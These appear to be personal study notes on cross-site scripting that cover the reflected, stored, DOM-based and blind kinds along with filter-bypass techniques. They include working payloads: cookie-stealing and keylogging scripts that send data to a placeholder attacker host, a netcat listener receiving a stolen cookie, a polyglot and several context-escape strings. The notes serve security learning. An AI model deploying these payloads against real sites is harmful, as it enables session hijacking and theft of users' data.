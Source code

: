 - injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users
- the hello world of XSS: `<script>alert('XSS');</script>

# Use Cases
## Session Stealing

- user's session, such as login tokens, are often kept in cookies on the targets machine. 
- The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. 
- Once the hacker has these cookies, they can take over the target's session and be logged as that user.
- `<script>fetch('https://HACKER_URL/steal?cookie=' + btoa(document.cookie));</script>`

## Key Logging
- anything you type on the webpage will be forwarded to a website under the hacker's control
- useful for sensetive data like chats, login data, credit card information
- `<script>document.onkeypress = function(e) { fetch('https://HACKER_URL/log?key=' + btoa(e.key) );}</script>`

## Business Logic
- This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`
- `<script>user.changeEmail('mail@HACKER_URL');</script>`


# Reflected XSS
- user-supplied data in an HTTP request is included in the webpage source without any validation
- often in query parameters or url file paths which are "injected" in the source code

example:

url: `https://URL/?error=Invalid Request` (...url encoded)

website:
```html
<div class="error-alert">
	<p>Invalid Request</p>
</div>
```

malicious url:

website:  `https://URL/?error=<dcript src="https://HACKER_URL/xss.js"></script>` (...url encoded)
```html
<div class="error-alert">
	<p><script src="https://HACKER_URL/xss.js"></script></p>
</div>
```

1. Hacker sends link with malicious payloud to user
2. user clicks on the link because it is a trusted url and user is taken to xss vulnarable website
3. link containing hackers script is ecexuted on website
4. hacker gets notified and gets gathered data of the user


# Stored XSS
- XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page
- often in comments 

1. user write a malicious comment with an executable script
2. website's database stores the code
3. other users watching the comment section get the malicious code ecexuted on website
4. hacker gets notified and gets gathered data of the user


# DOM Based XSS
- DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction (see [Document Object Model DOM](../../Software-Engineering/Web/Document%20Object%20Model%20DOM.md))
- difficult to find and requires nore knowledge
- Example: The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.
- finding a vulnarable page: need to look for parts of the code that access certain variables that an attacker can have control over, such as `window.location.x` parameters. -> hen need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as `eval()`


# Blind XSS
- similar to a stored XSS in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first
- example: A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal.

1. setup a listing server using netcat (or use a different tool): `nc -nlvp 9001` ()
2. enter XSS malicious code (maybe with bypass): `<script>fetch('http://{URL:9001}?cookie=' + btoa(document.cookie) );</script>`
3. look for netcat listings like
```
GET /?cookie=WFNTCg== HTTP/1.1
Host: URL:9001
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/89.0.4389.72 Safari/537.36
Accept: */*
Origin: VICTIM_URL
Referer: VICTIM_URL
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```
4. decode parameter `echo WFNTCg== | base64 -d`


# Bypass XSS

## Polyglots
- a string bypassing most of things
- it escapes attributes, tags and bypasses filters all in one

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```


## as Input Value

```html
<div class="text-center">
	<p>Hello, <input value="MALICIOUS_VALUE"></p>
</div>
```

... bypass with `"><script>alert('XSS');</script>`

```html
<div class="text-center">
	<p>Hello, <input value=""><script>alert('XSS');</script>"></p>
</div>
```

## surrounded with other tag

```html
<div class="text-center">
	<p>Hello, <textarea>MALICIOUS_VALUE</textarea></p>
</div>
```

... bypass with `</textarea><script>alert('XSS');</script>`

```html
<div class="text-center">
	<p>Hello, <textarea></textarea><script>alert('XSS');</script></textarea></p>
</div>
```


## within JavaScript Code

```html
<script>
	document.getElementsByClassName('name')[0].innerHTML='MALICIOUS_VALUE';
</script>
```

... bypass with `';alert('XSS');//` 

```html
<script>
	document.getElementsByClassName('name')[0].innerHTML='';alert('XSS');//';
</script>
```

## with replacements or filter
when e.g. the "script" is replaced with an empty string and we enter `<script>alert('XSS');</script>` as parameter

```html
<div class="text-center">
	<p>Hello, <>alert('XSS');</></p>
</div>
```

... bypass with `<sscriptcript>alert('THM');</sscriptcript>` 

```html
<div class="text-center">
	<p>Hello, <script>alert('XSS');</script></p>
</div>
```

## Image Selection
ehre you can select a picture and it takes the path of the image

```html
<div class="text-center">
	<h2>Your selected Picture</h2>
	<img src="/images/img.png">
</div>
```

```html
<div class="text-center">
	<h2>Your selected Picture</h2>
	<img src="MALICIOS_VALUE">
</div>
```

bypass with `/images/img.png" onload="alert('XSS');`

```html
<div class="text-center">
	<h2>Your selected Picture</h2>
	<img src="/images/img.png" onload="alert('XSS');">
</div>
```